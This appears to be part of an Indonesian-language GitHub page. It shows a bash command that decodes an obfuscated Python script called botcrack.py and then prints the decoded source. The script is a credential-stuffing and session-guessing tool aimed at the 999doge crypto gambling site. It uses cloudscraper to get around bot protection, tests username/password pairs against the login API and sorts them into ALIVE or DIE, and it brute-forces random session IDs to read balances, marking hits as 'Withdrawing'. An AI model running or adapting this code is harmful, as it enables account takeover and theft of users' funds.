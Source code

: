 ```bash
% echo -ne $(python3 botcrack.py) > tmp && mv -f tmp botcrack.py
```

* Hasilnya adalah file asli **botcrack.py** berikut ini:

```python
import cloudscraper, random, time, sys, os

gen = "abcdef0123456789"
grator = lambda lenght:[random.choice(gen) for i in range (lenght)]
birutua = "\033[0;34m"
putih = "\033[0m"
kuning = "\033[1;33m"
hijau = "\033[1;32m"
merah = "\033[1;31m"
biru = "\033[0;36m"
ungu = "\033[1;35m"
headers = {
"user-agent": "Mozilla/5.0 (Linux; Android 7.0; Redmi Note 4 Build/NRD90M; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/79.0.3945.93 Mobile Safari/537.36",
"content-type": "application/x-www-form-urlencoded",
"accept": "/",
"x-requested-with": "com.reland.relandicebot",
"sec-fetch-site": "cross-site",
"sec-fetch-mode": "cors",
"accept-encoding": "gzip, deflate",
"accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7",
"cookie": "lang=id"
}

url_login = 'https://www.999doge.com/api/web.aspx'
scr = cloudscraper.create_scraper()
go = 0
def checklist():
    login = 'a=Login&Key=e46b7c63f6b647e0bed15b38238700d5&Username='+user+'&Password='+password+'&Totp='
    logins = scr.post(url_login, data=login, headers=headers).json()
    try:
        ses = logins['SessionCookie']
        refer = logins['ReferredById']
        dogebalance = logins['Doge']['Balance'] / 100000000
        accid = logins['AccountId']
        print(hijau+"ALIVE :",user,password+putih)
    except Exception as e:
        print(merah+"DIE :",user,password+putih)
    time.sleep(3)
def checkbalance():
    a = grator(rand)
    session = ''.join([str(elem) for elem in a])
    print(hijau,"-----Generate Data Account-----",end="\r")
    time.sleep(1)
    check_balance = 'a=GetBalance&s='+session+'&Currency=doge'
    print(hijau,"-----Requesting to Server-----",end="\r")
    time.sleep(1)
    check_balance1 = scr.post(url_login, data=check_balance, headers=headers).json()
    balance = 0
    try:
        balance= check_balance1['Balance']
        print(hijau,"'------------[ALIVE]------------'")
        print(hijau,"Withdrawing",putih)
        global scs
        scs += 1
    except:
        print(merah,"'------------[DIE]------------'")
```
